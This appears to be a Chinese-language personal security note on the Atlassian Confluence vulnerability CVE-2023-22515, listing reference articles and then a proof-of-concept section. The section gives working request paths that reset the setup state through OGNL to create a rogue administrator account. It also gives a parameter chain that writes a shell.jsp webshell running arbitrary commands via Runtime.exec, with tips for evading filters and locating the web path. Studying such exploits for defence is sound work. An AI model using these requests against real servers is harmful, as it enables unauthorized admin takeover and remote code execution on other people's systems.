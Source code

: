 ## CVE-2023-22515

适用版本 8.X - 8.5.1

## 文章

[Atlassian Confluence CVE-2023-22515 分析](file:///F:/LocalCTF/Atlassian%20Confluence%20CVE-2023-22515%20%E5%88%86%E6%9E%90.pdf)

[对 Confluence CVE-2023-22515 的一点分析 _ CTF导航](F:\LocalCTF\对 Confluence CVE-2023-22515 的一点分析 _ CTF导航.html)

[CVE-2023-22515 _ AttackerKB](F:\LocalCTF\CVE-2023-22515 _ AttackerKB.pdf)

## 利用POC

#### 创建Admin用户

通过触发OGNL表达式来修改setup的参数

```bash
/server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false
或
/login.action
POST:bootstrapStatusProvider.applicationConfig.setupComplete=false
```

![image-20231013094000931](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231013094000931.png)

然后访问 /setup/setupadministrator-start.action 添加⼀个新的管理员⽤户

```bash
/setup/setupadministrator-start.action
```

![image-20231013094033376](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231013094033376.png)

#### 写WebShell

条件：写Webshell需要对Web目录具有写的权限

需要解决的几个问题：

- 使⽤ XMLWriter 写⼊数据时, JSP webshell 的 <> 字符会被过滤 （利⽤ EL 表达式的标签 ${..} 绕过 ）
- 如何确定 Confluence 的 web 路径 （多数为/opt/atlassian/confluence/confluence，也可以后台看到环境变量，  /admin/systeminfo.action 路 由, 环境变量中会显示与 Confluence 相关的路径信息）

```bash
/server-info.action?
bootstrapStatusProvider.applicationConfig.buildNumber=${Runtime.getRuntime().exec(param
.cmd)}&bootstrapStatusProvider.applicationConfig.applicationHome=/Users/exp10it/Downloa
ds/confluence-src/atlassian-confluence8.5.1/confluence&bootstrapStatusProvider.applicationConfig.configurationFileName=shell.
jsp&bootstrapStatusProvider.setupPersister.setupType=custom
```

![image-20231013094137497](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231013094137497.png)

访问 shell.jsp

![image-20231013094152516](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231013094152516.png)

## 创建Admin用户利用工具

